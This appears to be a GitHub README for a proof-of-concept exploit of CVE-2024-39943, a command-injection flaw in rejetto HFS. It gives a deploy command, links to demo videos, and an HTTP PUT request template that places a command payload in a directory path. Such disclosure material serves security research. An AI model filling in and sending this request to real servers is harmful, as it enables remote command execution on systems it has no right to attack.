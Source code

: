 # CVE-2024-39943-Poc
CVE-2024-39943 rejetto HFS (aka HTTP File Server) 3 before 0.52.10 on Linux, UNIX, and macOS allows OS command execution by remote authenticated users (if they have Upload permissions). This occurs because a shell is used to execute df (i.e., with execSync instead of spawnSync in child_process in Node.js).

Deploy: ``` ./hfs --config config.yaml ```


## Poc: user admin
https://github.com/truonghuuphuc/CVE-2024-39943-Poc/assets/20487674/c9e3d7ec-9181-43b5-8230-82c36fbf8a2b

## Poc: user guest
https://github.com/truonghuuphuc/CVE-2024-39943-Poc/assets/20487674/cbb55ece-2c68-4ade-a09d-8b9bf3b961d8

## update 6/7/2024: Poc user guest
https://github.com/truonghuuphuc/CVE-2024-39943-Poc/assets/20487674/f5e0c190-419a-4017-83ab-8a303b7176a8

<!--Note:
Payload is directory name exist , If the directory does not exist, you need to send the request twice. In the video, because a directory with the name contain payload already exists on the HFS server, I only need to send the request once

https://github.com/truonghuuphuc/CVE-2024-39943-Poc/assets/20487674/8bc8c270-24a5-4ad6-b32b-a75243afcd6a
-->
```
PUT /tmp/{{payload}}/poc11.txt HTTP/1.1
Host: <host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cookie: {{Cookie}}
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

aaaaaaaaaaa
```
